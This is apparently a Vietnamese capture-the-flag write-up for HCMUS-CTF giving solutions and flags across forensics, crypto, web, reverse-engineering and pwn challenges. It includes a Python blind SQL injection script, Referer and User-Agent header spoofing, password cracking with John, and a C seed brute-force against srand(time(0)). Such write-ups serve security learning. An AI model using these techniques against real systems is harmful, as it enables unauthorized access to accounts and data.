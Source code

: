 # HCMUS-CTF
## Forensics
### Docker Babe
- <code> docker pull pakkunandy/docker-babe </code>
- <code> docker run -t -i pakkunandy/docker-babe </code>
- <code> cat flag.txt </code>
- Flag: HCMUS-CTF{Docker_Is_an_essential_tool_You_have_to_learn_FORRRRSURRREEEE}

## Crypto
### Xor
- Xor cipher với key "HCMUS-CTF", ta thấy key = "FIT"
- Xor cipher với key "FIT"
- Flag: HCMUS-CTF{XoR_1s_a_KinD_oF_Crypto}
### The Ripper
- Dùng John với 2 file được cho, ta được username và password
- Flag: HCMUS-CTF{Use_John_the_ripper_to_crack_password_is_fun!!!HAHAHA}

## Web
### Secret Agent
- Thêm header: "User-Agent: eevee" vào request
- Flag: HCMUS-CTF{+he_4g3nt_Izzz_eevoolution0123456}
### Secret Dir
- Tìm được http://159.65.13.76:1338/
- Gửi request đến /flagpassword với header: "Referer: http://159.65.13.76:1338/flagflagflagflag", ta được username và password để vào /flagflagflagflag.
- Flag: HCMUS-CTF{1t_1zzzz_Crucial_t0_kn0W_Headers_and_R0b0tz}
### Blind SQL
- Blind SQL cơ bản
```
  for i in range(0, 50):
	print(i)
	for char in mchar:
		payload = "admin\' and password LIKE BINARY \'" + flag + char + "%"
		data = {'username': payload}
		x = requests.post(url, data)
		if "exists" in x.text:
			flag = flag + char
			break
print(flag)
```
- Flag: HCMUS-CTF{Sh0uld_I_Us3_NoSQL_N3xt_T1m3_0x3f3f3f}

## RE
### Patient Revenge Revenge
- Patch file exe để vô hiệu hóa timer :D
- Flag: HCMUS-CTF{d0_y0u_kn0w_ARc_fourrrrrrrrrrrr}
### Z3
- Dùng IDA decompile chương trình, sau đó copy hàm checkme vào đưa cho z3-solver
- Flag: HCMUS-CTF{H4v3_y0u_ev3r_he4rd_0f_z3}
### Lucky mine
- Dùng cnSpy debug chương trình, đặt breakpoint ở hàm Init_Mine_Field(), ta tìm ra được các vị trí không phải bom
- Flag: HCMUS-CTF{C_SHARPez}

## Pwn
### Secret
- Hàm strncmp(a, b, n) chỉ so sánh n ký tự đầu tiên của chuỗi a, b
- Payload: HCMUS-CTF
- Flag: HCMUS-CTF{strncmp_is_so_fun}
### Store
- srand(time(0)) lấy seed là thời gian hiện tại
```
	time_t cur = time(0);
	for(int i = 0; i < 1000000; i++)
	{
		srand(cur - i);
		for(int j = 0; j < 3; j++)
		{	
			if(rand() % 123456 != price[j])
			{
				break;
			}
			if(j == 2)
			{
				printf("Next number %d\n", rand() % 123456);
				exit(0);
			}
		}
	}
```
